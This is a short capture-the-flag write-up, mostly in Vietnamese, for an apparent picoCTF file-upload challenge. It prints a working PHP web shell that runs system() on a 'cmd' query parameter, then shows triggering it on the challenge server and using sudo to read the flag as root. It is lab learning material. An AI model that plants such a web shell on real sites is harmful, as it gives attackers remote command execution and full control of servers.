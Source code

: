 Sau khi up ảnh lên chúng ta thấy sau đó ảnh sẽ  bị thu hồi để giải phóng bộ nhớ

Inspector và xem đoạn code ở thẻ script


        var loadFile = function(event) {
            var input = event.target;
            var file = input.files[0];
            var type = file.type;
            var output = document.getElementById('preview_img');


            output.src = URL.createObjectURL(event.target.files[0]);
            output.onload = function() {
                URL.revokeObjectURL(output.src) // free memory
            }
        };

Cách solve lỗ hổng:

tạo 1 file shell.php và chèn code :

<?php
if(isset($_GET['cmd'])){
    echo "<pre>";
    $cmd = $_GET['cmd'];  // Get command from the query string
    system($cmd);         // Execute the command and display output
    echo "</pre>";
}
?>

Upload code lên sẽ được 1 hint:

![image](https://github.com/user-attachments/assets/b66614c6-c341-490e-b8db-973bea3e7f8a)

Then any Command can be Executed through Triggering the path:
Endpoint: uploads/shell.php?cmd=
http://standard-pizzas.picoctf.net:63914/uploads/shell.php?cmd=

sau đó 
http://standard-pizzas.picoctf.net:63914/uploads/shell.php?cmd=whoami

![image](https://github.com/user-attachments/assets/f291ce4c-c8a2-4a82-9061-c6ea0182bad4)

xem các quyền của người dùng hiện tại : sudo -l

![image](https://github.com/user-attachments/assets/6e9f416b-f83f-48c9-9ef1-53558b6a7aa7)

Vì vậy, không cần mật khẩu để truy cập bất kỳ người dùng nào cũng như root.

Bây giờ chúng ta hãy lấy cờ làm người dùng root:

![image](https://github.com/user-attachments/assets/ba69851e-de20-49e8-b61b-7f1401b08a9c)

